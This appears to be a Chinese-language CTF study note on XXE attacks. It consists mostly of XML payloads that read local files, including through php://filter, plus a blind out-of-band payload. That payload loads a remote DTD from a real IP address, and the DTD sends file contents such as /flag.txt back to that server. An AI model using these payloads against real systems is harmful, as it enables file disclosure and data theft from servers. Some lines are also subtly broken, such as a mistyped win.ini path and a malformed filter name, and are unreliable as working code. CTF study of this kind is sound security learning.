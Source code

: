 ```yaml
---
title: XXE漏洞
date: 2024-10-12 10:35:50
tags: CTF
categories: CTF-WEb
---
```


# XXE基础

```
<?xml version = "1.0"?>  //xml头
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>  //主体
<na>&cc;</na>  //xml
```

xml中的标签是可以任意命名的





# 有回显，外部实体XXE

```
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```

php伪协议文件读取

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



# 无回显，外部实体，XXE

xml payload

```html
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://123.60.57.4/test.dtd">
%remote;%dtd;%xxe;
]>
```

先执行remote实体，再在该服务器中的test.dtd文件中执行dtd实体，再执行xxe实体



在服务器上/var/www/html下创建test.dtd文件

```
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
//这里的文件读取也可以换成其他伪协议，如http,file
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

```
<!ENTITY % file SYSTEM "https://127.0.0.1/flag.php">
<!ENTITY % dtd "<!ENTITY xxe SYSTEM 'http://123.60.57.4/pass=%file;'>">
```

<!-- &#x25; 就是百分号（&#x25; vps=% vps），因为是嵌套在里面的引用，不能直接写百分号 -->
<!-- 如果选择nc监听的话，端口一定要加！！！ -->
<!-- 如果选择看日志的话，端口一定不能加！！！ -->

